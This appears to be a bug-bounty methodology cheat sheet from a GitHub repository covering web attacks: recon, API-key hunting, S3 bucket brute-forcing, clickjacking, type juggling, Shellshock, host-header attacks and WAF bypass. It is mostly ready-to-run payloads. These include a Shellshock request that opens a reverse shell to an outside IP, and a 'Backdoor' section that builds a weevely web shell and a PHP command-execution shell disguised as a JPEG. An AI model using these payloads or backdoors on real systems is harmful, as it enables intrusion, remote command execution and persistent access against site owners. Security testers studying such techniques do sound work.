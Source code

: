 # Methodology
![Methodology](https://scontent-eze1-1.xx.fbcdn.net/v/t1.6435-9/49640355_2448347995207650_2638728052967735296_n.jpg?_nc_cat=108&ccb=1-5&_nc_sid=730e14&_nc_ohc=JrPE4yh-SjEAX9ZNBzl&_nc_ht=scontent-eze1-1.xx&oh=00_AT_lRUrtv1QhYhpynxxHQhDU2-e2KVv7v7yhLUD54NgnZQ&oe=628F9681)
## Summary
- [Recon](#recon)
  - [Recon searching for](#recon-searching-for)
  - [S3 Buckets](#s3-buckets)
- [ClickJacking](#clickjacking)
- [Type Juggling](#type-juggling)
- [ShellShock Attack](#shellshock-attack)
- [CRLF](#crlf)
- [Google Dorks](#google-dorks)
- [Host Header Attack](#host-header-atttack)
- [Subdomain Takeover](#subdomain-takeover)
- [API Keys](#api-keys)
- [GraphQL](#graphql)
- [WAF Bypass](#waf-bypass)
# Recon
1) Enumerate Domains.
2) Enumerate Subdomains: recon.sh + httpx or Knockpy -w subdomains $domain.com.
3) Enumerate Params: gau, waybackurls, paramspider and dirsearch.
4) Enumerate ports of each subdomain: nmap.
5) API KEYS - cat url.txt | grep "\.js" xargs -I@ sh -c 'python.exe SecretFinder.py -i @ -e -o cli' | tee apiKeys.txt
6) Maltego + FOCA.
7) [Google Dorks](#google-dorks).
8) Frameworks, Languages, PaaS and Servers.
9) Shodan to know cves exposure

## Recon searching for:

### Requests:
1) setRequestHeader
2) XMLHttpRequest
3) $.ajax 
4) $.get 
5) $.post 
6) $.getJSON 
7) fetch( 
8) axios({ 
9) Url = "http

### FIREBASE:
firebaseio.com/.json

### Cookies:
1) set_cookie(
2) base64

## S3 Buckets
* s3.amazonaws.com
* Read: aws s3 ls s3://domain --no-sign-request = Response: An error occurred (NoSuchBucket) when calling the ListObjectsV2 operation: The specified bucket does not exist
* Upload: aws s3 cp poc.html s3://domain --no-sign-request = load to s3://
* Bruteforce: cat subdomains.txt | xargs -I@ sh -c 'aws s3 ls s3://@ --no-sign-request' | grep -v 'An error occurred (NoSuchBucket) when calling the ListObjectsV2 operation: The specified bucket does not exist'

### API Tokens:
1) pk_live
2) sk_live
3) AIza

### JWT
The Json web tokens cannot be tested in automated ways, so it is more likely to meet some bugs.

### Open Redirect
> Use "Burp Seach"
```http
?redirection=
?redir=
?redireccion=
```

## Clickjacking
> List forms to change password, email and delete account via GET Request + Submit input.
```html
<iframe src="$url?email=hacker@attacker-website.com"></iframe>
```

## Type Juggling
```http
POST https://example.com/login.php HTTP/1.1
Accept: */*
Content-Type: application/json

usuario=admin&password[]=anything
```
Add [] to password

## Shellshock Attack
```http
cgi-bin/stats
POST https://example.com/session.cgi HTTP/1.1
Accept: */*
User-Agent: () { :; }; echo "pwned"

User-Agent: () { :; }; echo "pwned"

curl -H "User-Agent: () { :; }; /bin/eject" http://example.com/

curl -s -X GET "http://localhost/cgi-bin/stats" -H "User-Agent: () { :; }; echo; /bin/bash -i >& /dev/tcp/10.10.14.29/443 0>&1"

echo to bypass WAF
```
## CRLF
Always test params with GET Requests: https://github.com/AngelJuanMa/Web-Vulnerabilities/blob/main/Payloads/CRLF.txt

## Google Dorks
```bash
python3.9 pagodo.py -d example.com -g ./dorks/all_google_dorks.txt
cat pagodo.py.log | grep 'Found unique URL #'
```
4.2 days to finish

## Host Header Atttack
```http
POST https://example.com/reset.php HTTP/1.1
Accept: */*
Content-Type: application/json
Host: SUBDOMAIN.burpcollaborator.net
```

## Subdomain Takeover
https://github.com/EdOverflow/can-i-take-over-xyz

## Api keys
https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/keyhacks-api.md

## Graphql
InQL extension of burp suite to list endpoints. 

## WAF bypass
```bash
sudo apt install jq
git clone https://github.com/vincentcox/bypass-firewalls-by-DNS-history
cd bypass-firewalls-by-DNS-history/
bash bypass-firewalls-by-DNS-history.sh --help

https://github.com/EnableSecurity/wafw00f
```
## Backdoor
```bash
weevely generate 12345 404.php
weevely http://domain.com/404.php 12345

jhead -purejpg ns.jpg
jhead -ce ns.jpg
mv ns.jpg ns.php.jpg

Insert:

<style>body{font-size: 0;}h1{font-size: 12px}</style><h1>
<?php if(isset($_REQUEST['cmd'])){system($_REQUEST['cmd']);}else{echo '<img src="foto.jpg" border=0>
';}__halt_compiler();?></h1>

:wq
```

```http
http://domain.com/ns.php.jpg?cmd=ls
```
